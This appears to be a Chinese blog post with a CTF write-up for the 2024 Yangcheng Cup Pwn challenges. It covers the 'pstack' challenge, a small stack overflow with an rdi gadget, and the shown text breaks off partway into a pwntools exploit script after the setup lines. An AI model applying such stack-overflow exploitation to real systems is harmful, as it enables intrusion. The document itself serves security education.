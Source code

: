 ```yaml
---
title: "Write-ups: 2024「羊城杯」粤港澳大湾区网络安全大赛"
published: 2025-09-22
updated: 2025-09-23
description: "2024「羊城杯」粤港澳大湾区网络安全大赛 Pwn 方向复现。"
image: "https://ghproxy.net/https://raw.githubusercontent.com/CuB3y0nd/picx-images-hosting/master/.2dp2bydczv.avif"
tags: ["Pwn", "Write-ups"]
category: "Write-ups"
draft: false
---
```


先挑几个简单的复现一下，因为堆都没怎么学过，就先不复现了，等以后学明白了再去研究。

# pstack

## Information

- Category: Pwn
- Points: Unknown

## Description

Unknown

## Write-up

看上去就是签到题，0x10 字节栈溢出，而且给了 rdi gadget，那还不简单？

~回想起我最近打的比赛，签到也基本都是栈迁移，可是没一个是有 rdi gadget 的……~

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    ELF,
    ROP,
    args,
    context,
    flat,
    process,
    raw_input,
    remote,
    u64,
)


FILE = "./pwn_patched"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary
libc = ELF("./libc.so.6")
rop = ROP(elf)


def launch():
    global target
```